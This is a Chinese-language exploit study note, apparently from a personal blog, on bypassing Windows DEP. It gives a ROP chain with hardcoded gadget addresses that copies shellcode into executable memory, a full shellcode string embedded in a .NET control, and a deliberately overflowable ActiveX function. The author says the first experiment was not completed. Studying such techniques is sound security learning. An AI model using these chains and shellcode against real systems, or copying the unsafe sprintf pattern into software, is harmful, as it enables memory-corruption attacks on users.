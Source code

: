 ```yaml
---
title: 漏洞学习笔记-016-利用可执行内存和.NET攻击DEP
author: Misaka
date: 2020-11-20 14:13:00 +0800
categories: [Exploit]
tags: [Windows, Exploit]
math: true
---
```


Ret2Libc之利用VirtualProtect和VirtualAlloc攻击DEP攻击DEP

本文来源：[Moeomu的博客](/posts/漏洞学习笔记-016-利用可执行内存和.NET攻击DEP/)

## 利用可执行内存攻击DEP

### 原理

- 有的时候在进程的内存空间中会存在一段可读可写可执行的内存，如果我们能够将shellcode复制到这段内存中，并劫持程序流程，我们的shellcode就有执行的机会

### 代码

```cpp
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"......"
"\x90\x90\x90\x90"
"\x8A\x17\x84\x7C"//pop eax retn
"\x0B\x1A\xBF\x7C"//pop pop retn
"\xBA\xD9\xBB\x7C"//修正EBP retn 4
"\x5F\x78\xA6\x7C"//pop retn
"\x08\x00\x14\x00"//可执行内存中弹出对话框机器码的起始地址
"\x00\x00\x14\x00"//可执行内存空间地址，复制用
"\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
"\xFF\x00\x00\x00"//shellcode 长度
"\xAC\xAF\x94\x7C"//memcpy
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"......"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

void test()
{
    char tt[176];
    memcpy(tt, shellcode, 450);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

### 后记

- 按理来说是要有RWE权限的内存区域的，可惜么得，此实验未完成

## 利用.NET攻击DEP

### 原理

- .NET 的文件具有和与PE文件一样的结构，也就是说它也具有.text等段，这些段也会被映射到内存中，也会具备一定的可执行属性。大家应该想到如何利用这一点了，将shellcode放到.NET中具有可执行属性的段中，然后让程序转入这个区域执行，就可以执行shellcode了
- 需求
  - 具有溢出漏洞的ActiveX控件
  - 包含有shellcode的.NET控件
  - 可以触发ActiveX控件中溢出漏洞的POC页面

### 代码

> 具有溢出漏洞的ActiveX控件

```cpp
void CVulnerAXCtrl::test(LPCTSTR str)
{
    // AFX_MANAGE_STATE(AfxGetStaticModuleState());
    // TODO: Add your dispatch handler code here
    printf("aaaa"); // 定位该函数的标记
    char dest[100];
    sprintf(dest, "%s", str);
}
```

> 包含有shellcode的.NET控件

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;

namespace DEP_NETDLL
{
    public class Class1
    {
        public void Shellcode()
        {
            string shellcode =
            "\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
            "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91" +
            "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332" +
            "\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c" +
            "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505" +
            "\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b" +
            "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06" +
            "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c" +
            "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd" +
            "\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33" +
            "\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050" +
            "\uff53\ufc57\uff53\uf857"
            ;
        }
    }
}
```

## 利用Java Applet挑战DEP

> 难以找到适合的版本，所以此实验略过，以后有机会再补充
